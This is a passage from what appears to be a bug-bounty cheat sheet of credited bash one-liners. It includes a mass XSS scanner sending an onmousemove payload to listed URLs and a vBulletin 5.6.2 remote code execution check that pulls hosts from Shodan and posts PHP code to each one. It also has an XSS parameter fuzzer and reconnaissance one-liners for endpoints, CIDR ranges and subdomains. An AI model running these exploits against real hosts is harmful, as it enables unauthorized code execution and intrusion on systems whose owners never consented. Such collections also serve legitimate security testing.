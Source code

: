 ```bash
cat URLS.txt | while read h do; do curl -sk "$h/module/?module=admin%2Fmodules%2Fmanage&id=test%22+onmousemove%3dalert(1)+xx=%22test&from_url=x"|grep -qs "onmouse" && echo "$h: VULNERABLE"; done
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution
> @Madrobot_

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```

### Find JavaScript Files
> @D0cK3rG33k

```bash
assetfinder --subs-only HOST | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" | sed -e 's, 'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars"; done
```

### Extract Endpoints from JavaScript
> @renniepak

```bash
cat FILE.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

### Get CIDR & Org Information from Target Lists
> @steve_mcilwain

```bash
for HOST in $(cat HOSTS.txt);do echo $(for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```

### Get Subdomains from RapidDNS.io
> @andirrahmani1

```bash
curl -s "https://rapiddns.io/subdomain/$1?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u
```

### Get Subdomains from BufferOver.run
> @\_ayoubfathi\_

```bash
curl -s https://dns.bufferover.run/dns?q=.HOST.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u
```
